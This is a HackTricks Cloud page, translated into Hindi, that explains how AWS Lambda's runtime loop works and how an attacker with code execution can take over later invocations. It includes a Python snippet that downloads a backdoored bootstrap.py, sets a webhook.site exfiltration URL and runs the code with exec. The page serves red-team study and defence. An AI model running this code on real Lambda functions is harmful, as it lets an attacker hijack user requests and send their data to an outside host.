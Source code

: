 # AWS - Lambda अनुरोध चुराना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर **हमें फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR सबमिट करके।

</details>
{% endhint %}

## Lambda प्रवाह

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** एक प्रक्रिया है जो कंटेनर के बाहर है और **invocations** को **init** प्रक्रिया को **भेजती** है।
2. Init प्रक्रिया पोर्ट **9001** पर सुनती है जो कुछ दिलचस्प एंडपॉइंट्स को उजागर करती है:
* **`/2018-06-01/runtime/invocation/next`** – अगली invocation घटना प्राप्त करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invoke के लिए हैंडलर प्रतिक्रिया लौटाएं
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – एक निष्पादन त्रुटि लौटाएं
3. **bootstrap.py** में एक लूप है जो init प्रक्रिया से invocations प्राप्त करता है और उन्हें संभालने के लिए उपयोगकर्ता के कोड को कॉल करता है (**`/next`**).
4. अंततः, **bootstrap.py** init को **response** भेजता है

ध्यान दें कि bootstrap उपयोगकर्ता के कोड को एक मॉड्यूल के रूप में लोड करता है, इसलिए उपयोगकर्ता के कोड द्वारा किया गया कोई भी कोड निष्पादन वास्तव में इस प्रक्रिया में हो रहा है।

## Lambda अनुरोध चुराना

इस हमले का लक्ष्य उपयोगकर्ता के कोड को एक दुर्भावनापूर्ण **`bootstrap.py`** प्रक्रिया को निष्पादित करना है जो उस **`bootstrap.py`** प्रक्रिया के अंदर है जो कमजोर अनुरोध को संभालती है। इस तरह, **दुर्भावनापूर्ण bootstrap** प्रक्रिया **init प्रक्रिया** के साथ **बातचीत करना शुरू कर देगी** ताकि अनुरोधों को संभाला जा सके जबकि **वैध** bootstrap **फंस** गया है जो दुर्भावनापूर्ण को चला रहा है, इसलिए यह init प्रक्रिया से अनुरोध नहीं मांगेगा।

यह एक सरल कार्य है क्योंकि उपयोगकर्ता का कोड वैध **`bootstrap.py`** प्रक्रिया द्वारा निष्पादित किया जा रहा है। इसलिए हमलावर कर सकता है:

* **Init प्रक्रिया को वर्तमान invocation का एक नकली परिणाम भेजें**, ताकि init सोचता है कि bootstrap प्रक्रिया अधिक invocations की प्रतीक्षा कर रही है।
* एक अनुरोध **`/${invoke-id}/response`** पर भेजा जाना चाहिए
* Invoke-id को वैध **`bootstrap.py`** प्रक्रिया के स्टैक से [**inspect**](https://docs.python.org/3/library/inspect.html) पायथन मॉड्यूल का उपयोग करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित है](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) या बस इसे फिर से **`/2018-06-01/runtime/invocation/next`** पर अनुरोध करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित है](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* अगली invocations को संभालने के लिए एक दुर्भावनापूर्ण **`boostrap.py`** निष्पादित करें
* छिपाने के उद्देश्यों के लिए, हमलावर के नियंत्रित C2 पर lambda invocations पैरामीटर भेजना संभव है और फिर अनुरोधों को सामान्य रूप से संभालें।
* इस हमले के लिए, **`bootstrap.py`** का मूल कोड सिस्टम से या [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) से प्राप्त करना, दुर्भावनापूर्ण कोड जोड़ना और इसे वर्तमान lambda invocation से चलाना पर्याप्त है।

### हमले के चरण

1. एक **RCE** कमजोरी खोजें।
2. एक **दुर्भावनापूर्ण** **bootstrap** उत्पन्न करें (जैसे [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **दुर्भावनापूर्ण bootstrap** को **निष्पादित** करें।

आप इन कार्यों को आसानी से चलाकर कर सकते हैं:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
